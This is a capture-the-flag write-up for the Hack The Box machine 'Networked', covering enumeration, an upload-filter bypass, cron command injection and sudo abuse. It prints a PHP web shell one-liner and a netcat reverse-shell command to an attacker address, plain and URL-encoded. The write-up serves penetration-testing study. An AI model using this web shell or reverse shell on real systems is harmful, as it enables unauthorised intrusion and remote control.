 ```yaml
---
title: "[HTB] Machine: Networked"
description: "[HTB] Machine: Networked"
date: 2023-06-23
menu:
  sidebar:
    name: "[HTB] Machine: Networked"
    identifier: htb-machine-networked
    parent: htb-machines-linux
    weight: 10
hero: images/networked.png
tags: ["HTB", "apache", "php", "upload", "webshell", "filter", "command-injection", "sudo", "ifcfg"]
---
```


# Networked
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.146                   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 17:13 BST
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.51s latency).
Not shown: 921 filtered tcp ports (no-response), 76 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.91 seconds

```
- `gpbuster`
```
└─$ gobuster dir -u 10.10.10.146  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.146
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2023/06/23 17:21:53 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 207]
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/photos.php           (Status: 200) [Size: 1302]
/upload.php           (Status: 200) [Size: 169]
/lib.php              (Status: 200) [Size: 0]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
/.html                (Status: 403) [Size: 207]
```
- Web server

![](./images/1.png)

- Backup

![](./images/2.png)

![](./images/3.png)

## Foothold
- Source code

![](./images/4.png)

![](./images/6.png)

![](./images/5.png)

- Let's try a web shell
  - `<?php system($_GET['cmd']); ?>`
  - Create a file named `shell.php.jpg` and add `jpg` signature via `hexeditor`
    - https://en.wikipedia.org/wiki/List_of_file_signatures
  - Upload to server

![](./images/8.png)

![](./images/9.png)

![](./images/7.png)

![](./images/10.png)

![](./images/11.png)

![](./images/12.png)

- Spawn reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.7 6666 >/tmp/f`
  - Url encode: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20%2Di%202%3E%261%7Cnc%2010%2E10%2E16%2E7%206666%20%3E%2Ftmp%2Ff`

![](./images/13.png)

## User
- Enumeration

![](./images/14.png)

![](./images/15.png)

![](./images/16.png)

- It's a cron job, so we can try command injection since we control the `$value`
  - Let's create payload file and launch our listener

![](./images/17.png)

![](./images/18.png)

- And we got our user
## Root
- `sudo -l`

![](./images/19.png)

- So let's abuse that according to link below
  - https://seclists.org/fulldisclosure/2019/Apr/24

![](./images/20.png)
